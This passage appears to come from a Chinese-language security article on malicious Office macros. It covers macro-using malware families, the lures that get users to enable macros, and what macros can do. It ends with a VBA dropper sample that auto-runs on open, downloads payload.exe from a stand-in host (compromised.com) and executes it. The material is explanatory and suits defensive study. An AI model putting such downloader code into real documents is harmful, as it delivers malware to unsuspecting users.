 <a class="reference-link" name="FTCODE"></a>**FTCODE**

一款由宏作为载体，释放powershell实现的勒索软件，活跃至2019年。

<a class="reference-link" name="Sandworm:%20BlackEnergy%20/%20Olympic%20Destroyer"></a>**Sandworm: BlackEnergy / Olympic Destroyer**

sandworm每次攻击的起始都是宏<br>
2015年和2016年两次袭击乌克兰发电厂，导致停电。2018年攻击平昌冬奥会。

<a class="reference-link" name="Other"></a>**Other**

除此之外，还有像Dridex、Rovnix、Vawtrak、FIN4、Locky、APT32、TA505、Hancitor、Trickbot、FIN7、Buran、 Ursni、Gozi,、Dreambot、 TA2101/Maze ransomware、 等家族，都会在攻击过程中使用到带有恶意宏代码的office文档。

### <a class="reference-link" name="%E6%81%B6%E6%84%8F%E5%AE%8F%E5%A6%82%E4%BD%95%E8%BF%90%E8%A1%8C"></a>恶意宏如何运行

先来看一个典型的宏利用文档打开的提示：

[![](https://p4.ssl.qhimg.com/t011498e20fad5f9429.png)](https://p4.ssl.qhimg.com/t011498e20fad5f9429.png)

由于宏的危险性，office通常情况下默认是禁用宏执行的，所以当带有宏的文件打开，就会询问用户是否开启宏，为了让用户在不知情的情况下启用宏，攻击者也是想了很多方式，我大概遇见过这么几种：<br>
1.在文档中间显示一个模糊的图片，提示用户启用宏才能查看清晰图片。<br>
2.在文档中伪造安全的机构，比如伪造微软，或者伪造一个杀软的图标，让用户相信这个文档是安全的。<br>
3.与用户交互，把宏代码的执行设置在用户单击了某个图片或者按钮则提示用户启用宏。

### <a class="reference-link" name="%E6%81%B6%E6%84%8F%E5%AE%8F%E4%BB%A3%E7%A0%81%E9%80%9A%E5%B8%B8%E8%A2%AB%E7%94%A8%E6%9D%A5%E5%81%9A%E4%BB%80%E4%B9%88"></a>恶意宏代码通常被用来做什么

一般来讲，恶意宏代码可以实现以下操作：<br>
Run Automatically 自动运行<br>
Download Files 下载文件<br>
CreateFiles 创建文件<br>
Execute a file 执行、启动文件<br>
Run a system command 执行系统命令<br>
call any dll 调用任意dll<br>
Inject Shellcode 注入shellcode<br>
Call any ActiveXObkject 调用任意的ActiveXObject<br>
Simulate Keystrokes 模拟用户点击<br>
…

需要注意的是，一个恶意程序可能完全由宏实现，但是更多的情况下，宏用于加载或者下载其他恶意程序。所以对于一个未知的office文档来讲，启用office的宏和打开未知的exe文件一样危险：

[![](https://p0.ssl.qhimg.com/t01ee190ee4a663ffe7.png)](https://p0.ssl.qhimg.com/t01ee190ee4a663ffe7.png)

一个简单的VBA Downloader（下载者），有时候也称为Dropper（加载器）示例：

```
private  Declare Function URLDownloadToFileA Lib "urlmon" 
(ByVak A AS Long,ByVal B As String , 
ByVal C As String ,ByVal D As Long ,
ByVal E As Long ) As Long

Sub Auto_Open()
    Dim result As Long
    fname = Environ("TEMP") &amp; "agent.exe" 
    result =URLDownloadToFileA(0,"http:compromised.com/payload.exe",fname,0,0)
    Shell fname
End Sub
```
